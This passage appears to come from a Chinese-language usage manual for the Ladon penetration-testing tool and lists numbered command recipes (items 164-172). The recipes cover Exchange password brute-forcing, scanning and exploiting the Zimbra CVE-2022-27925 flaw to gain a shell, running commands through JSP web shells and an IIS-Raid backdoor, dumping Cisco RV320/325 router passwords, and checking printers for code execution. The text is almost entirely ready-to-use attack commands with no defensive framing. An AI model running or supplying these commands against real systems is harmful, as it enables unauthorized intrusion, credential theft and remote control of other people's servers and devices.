 ##### 164  Exchange暴力破解 识别Exchange密码爆破
```Bash
Ladon k8gege.org ExchangeScan
Ladon 192.168.1.8 ExchangeScan
Ladon 192.168.1.8、24 ExchangeScan
```

##### 165 CVE-2022-27925 批量探测Zimbra邮服ZIP目录穿越RCE漏洞
```Bash
Ladon 192.168.1.8 CVE-2022-27925
Ladon http://zimbra.k8gege.org CVE-2022-27925
Ladon ip.txt CVE-2022-27925
Ladon url.txt CVE-2022-27925
Ladon 192.168.1.1/c CVE-2022-27925
Ladon 192.168.1.1/b CVE-2022-27925
```

##### 166 EXP-2022-27925 Zimbra邮服未授权RCE漏洞EXP GetShell
```Bash
Ladon EXP-2022-27925 https://zimbra.k8gege.org poc.zip
```

##### 167 WebShellCmd 连接jsp WebShell(支持cd、k8、ua、uab64)
```Bash
Ladon WebShell jsp ua https://zimbra.k8gege.org pass whoami
```

##### JSP UAshell 查看系统版本、python、gcc等信息方便提权
```Bash
Ladon WebShell jsp ua https://zimbra.k8gege.org pass OSinfo
```

##### 168 WebShellCmd 连接jsp WebShell(支持cd、k8、ua、uab64)
```Bash
Ladon WebShell jsp uab64 https://zimbra.k8gege.org pass whoami
```

##### 169 非交互式连接IIS-Raid后门执行命令
```Bash
Ladon IISdoor http://192.168.1.142 whoami
Ladon IISdoor http://192.168.1.142 SIMPLEPASS whoami
```

##### 170 FindIP匹配IP段是否出现在漏洞结果中
```Bash
Ladon FindIP ipc.txt ISVUL.txt		 (精确搜索)
Ladon FindIP ipc.txt ISVUL.txt like  (模糊搜索)
```

##### 171 CiscoPwd CVE-2019-1653 Cisco RV320 RV325 路由器密码读取
```Bash
Ladon https://192.168.1.8 CiscoPwd
Ladon url.txt CiscoPwd 批量探测Cisco漏洞并导出用户密码
```

##### 172 PrinterPoc  打印机PJL任意代码执行漏洞批量检测
```Bash
Ladon 192.168.1.8 PrinterPoc
Ladon ip.txt PrinterPoc
禁ping机器扫描使用noping
Ladon noping 192.168.1.8 PrinterPoc
Ladon noping ip.txt PrinterPoc
```
